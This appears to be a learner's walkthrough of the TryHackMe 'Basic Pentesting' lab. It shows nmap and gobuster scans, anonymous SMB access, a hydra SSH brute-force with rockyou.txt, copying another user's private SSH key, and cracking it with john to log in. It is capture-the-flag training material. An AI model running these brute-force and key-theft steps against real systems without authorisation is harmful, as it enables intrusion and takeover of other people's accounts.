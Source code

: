 # Basic Pentesting | TryHackMe
### 1. First, nmap to the target.

`nmap -sV 10.10.150.97`
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 13:17 JST
Nmap scan report for 10.10.150.97
Host is up (0.30s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3390/tcp filtered dsc
3517/tcp filtered 802-11-iapp
8009/tcp open     ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open     http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 300.35 seconds
```
### 2. http is available and I'm going to see it.

![picture](https://github.com/itc-n22003/new/blob/main/pictures/basic_pentesting_80.png)

I didn't find anything in particular.

### 3. I'll try gobuster.

`gobuster dir -w common.txt -u http://10.10.150.97`
```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.97
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/n22003/Work/Wordlist/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/11 13:34:44 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/development          (Status: 301) [Size: 318] [--> http://10.10.150.97/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 300]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/05/11 13:37:09 Finished
===============================================================
```

### 4. I'll take a look at it since the `/development` is suspicious.
Found dev.txt and j.txt.
According to dev.txt, smb is free. (I knew this from nmap earlier...)

### 5. Take a look at the SMB.
```
        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            BASIC2
```
Check Anonymous.

### 6. I'll try to connect it to Anonymous.

`smbclient \\\\10.10.150.97\\Anonymous`
No passwords.
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Apr 20 02:31:20 2018
  ..                                  D        0  Fri Apr 20 02:13:06 2018
  staff.txt                           N      173  Fri Apr 20 02:29:55 2018

                14318640 blocks of size 1024. 11094400 blocks available
```
Take a look at staff.txt

`more staff.txt`

I found a user named Jan.

### 7. I'm going to try to do a total ssh hit on Jan with hydra.

`hydra -l jan -P rockyou.txt 10.10.150.97 ssh`

### 8. Now that I have jan's password, I'll try connecting via ssh.
There was nothing special in jan's directory.
However, there were some in kay's directory, so I tried ssh connection with kay.

### 9. Get kay key.
I'll try to see if I can get the kay key with scp.

`scp jan@10.10.150.97:/home/kay/.ssh/id_rsa .`

The password is jan's.
I got it and I'm going to feed it to john.

`ssh2john id_rsa > hash`

Analyze with john.

`john --wordlist=rockyou.txt hash`

Now that I know kay's password, I change id_rsa's permissions to 600 and ssh.

`chmod 600 id_rsa`

`ssh -i id_rsa kay@10.10.150.97`

The password is the one I just parsed.
If you can log in, check pass.bak and that's it.

